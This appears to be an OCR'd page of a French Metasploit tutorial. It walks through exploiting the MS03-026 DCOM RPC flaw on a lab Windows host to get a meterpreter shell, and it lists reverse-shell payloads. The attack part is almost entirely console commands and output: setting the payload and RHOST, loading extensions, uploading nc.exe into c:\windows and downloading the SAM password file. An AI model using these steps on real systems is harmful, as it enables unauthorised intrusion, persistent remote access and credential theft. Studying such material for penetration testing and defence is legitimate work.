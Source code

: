 ```text
win32_reverse_dllinject  
Windows Reverse DLL Inject  
win32_reverse_meterpreter  
win32_reverse_ord  
Windows Reverse Meterpreter DLL Inject  
Windows Staged Reverse Ordinal Shell  
win32_reverse_ord_vncinject Windows Reverse Ordinal VNC Server 
Inject  
win32_reverse_stg  
Windows Staged Reverse Shell  
win32_reverse_stg_upexec  
win32_reverse_vncinject  
Windows Staged Reverse Upload/Execute  
Windows Reverse VNC Server Inject  
msf msrpc_dcom_ms03_026(in32_bind_meterpreter) > set PAYLOAD 
win32_bind_meterpreter  
PAYLOAD -> win32_bind_meterpreter  
msf msrpc_dcom_ms03_026(win32_bind_meterpreter) > set RHOST 
192.168.9.14  
RHOST -> 192.168.9.14  
msf msrpc_dcom_ms03_026(win32_bind_meterpreter) > exploit  
[*] Starting Reverse Handler.  
[*] Sending request...  
[*] Got connection from 192.168.9.100:4321 <-> 192.168.9.14:1031  
meterpreter>
```

Nous obtenons un shell meterpreter.

Il faut maintenant charger le système de fichiers et des librairies dans meterpreter.

```text

meterpreter> use -m Process  
loadlib: Loading library from 'ext180401.dll' on the remote 
machine.  
Meterpreter>  
loadlib: success.  
meterpreter> use -m Fs  
loadlib: Loading library from 'ext290706.dll' on the remote 
machine.  
meterpreter>  
loadlib: success.  
meterpreter> help
```

Nous pouvons maintenant envoyer ou télécharger des fichiers, exécuter des commandes shell, gérer les processus en interactivité avec eux...

```text

meterpreter> upload /home/fasm/windows-binaries/tools/nc.exe 
c:\windows  
upload: Starting upload of '/home/fasm/windows-
binaries/tools/nc.exe' to 'c:\windows\nc.exe'.  
upload: 1 uploads started.  
meterpreter>  
upload: Upload from '/home/fasm/windows-binaries/tools/nc.exe' 
succeeded.  
meterpreter> download c:\windows\repair\sam /tmp  
download: Starting download from 'c:\windows\repair\sam' to 
'/tmp/sam'...  
download: 1 downloads started.  
meterpreter>  
download: Download to '/tmp/sam' succeeded.  
meterpreter>  
```